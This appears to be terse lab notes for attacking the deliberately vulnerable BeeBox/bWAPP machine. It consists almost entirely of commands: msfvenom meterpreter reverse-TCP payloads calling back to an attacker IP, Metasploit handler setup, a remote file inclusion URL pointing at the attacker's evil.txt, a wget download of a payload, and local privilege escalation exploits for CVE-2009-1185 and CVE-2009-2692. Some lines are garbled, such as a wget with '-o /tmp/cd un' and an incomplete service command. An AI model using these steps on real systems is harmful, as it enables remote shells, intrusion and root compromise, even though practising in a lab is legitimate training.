### BeeBox

"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole  
use exploit/multi/handler 
set LPORT 4446  
set LHOST 192.168.112.4 
set PAYLOAD php/meterpreter_reverse_tcp 
run 

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go  
**Change to:**  
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'
id  
whoami  

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2   
msfconsole  
use exploit/multi/handler 
set LHOST 192.168.112.4 
set LPORT 5000  
set PAYLOAD linux/x86/meterpreter/reverse_tcp 

On BeeBox:  
wget http://192.168.112.4/run -o /tmp/cd un 
gcc cve-2009-1185.c -o /tmp/privescalation  
chmod +x /tmp/privescalation  
cd /tmp 
ps aux | grep udev  
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)  


**Easy Way**  
tar -xvf cve-2009-2692.tar  
cd cve-2009-2692  
sh cve-2009-2692.sh 
